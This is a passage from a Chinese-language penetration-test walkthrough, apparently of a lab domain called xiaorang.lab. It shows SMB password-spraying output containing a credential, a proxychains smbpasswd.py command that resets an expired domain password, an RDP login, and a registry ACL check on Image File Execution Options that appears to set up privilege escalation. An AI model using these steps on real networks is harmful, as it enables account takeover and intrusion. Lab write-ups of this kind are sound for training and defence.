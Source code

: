 ```python
SMB         172.22.8.18     445    WIN-WEB          [-] xiaorang.lab\Aldrich:Ald@rLMWuy7Z!# STATUS_LOGON_FAILURE 
```

这里发现三个提示是密码过期了

```python
SMB         172.22.8.46     445    WIN2016          [-] xiaorang.lab\Aldrich:Ald@rLMWuy7Z!# STATUS_PASSWORD_EXPIRED 
SMB         172.22.8.18     445    WIN-WEB          [*] Windows Server 2016 Datacenter 14393 x64 (name:WIN-WEB) (domain:xiaorang.lab) (signing:False) (SMBv1:True)
SMB         172.22.8.31     445    WIN19-CLIENT     [-] xiaorang.lab\Aldrich:Ald@rLMWuy7Z!# STATUS_PASSWORD_EXPIRED 
SMB         172.22.8.15     445    DC01             [-] xiaorang.lab\Aldrich:Ald@rLMWuy7Z!# STATUS_PASSWORD_EXPIRED 
```

利用脚本批量改下密码 

```python
proxychains python3 smbpasswd.py xiaorang.lab/Aldrich:'Ald@rLMWuy7Z!#'@172.22.8.15 -newpass 'U*MT%yB22fU5aT'
```

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1754290247910-22c4f958-cb41-48a6-bbcf-b87727e99065.png)

15 机子，连不上

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1754290356428-82a81f29-cddd-448f-aa59-02205bfd37a7.png)

RDP 尝试连接 46 机子

```python
aldrich@xiaorang.lab
U*MT%yB22fU5aT
```

连上来

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1754291322022-1a405eea-da32-413b-ba8c-f8652c91492a.png)

在 PS 中执行命令，查看权限

```python
get-acl -path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options" | fl *
```

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1754290883083-1f98c6b0-37c3-4dfd-b6c3-b22f33303094.png)

```python
PSPath                  : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentV
                          ersion\Image File Execution Options
PSParentPath            : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentV
                          ersion
PSChildName             : Image File Execution Options
PSDrive                 : HKLM
PSProvider              : Microsoft.PowerShell.Core\Registry
CentralAccessPolicyId   :
CentralAccessPolicyName :
Path                    : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentV
                          ersion\Image File Execution Options
Owner                   : NT AUTHORITY\SYSTEM
Group                   : NT AUTHORITY\SYSTEM
Access                  : {System.Security.AccessControl.RegistryAccessRule, System.Security.AccessControl.RegistryAcce
```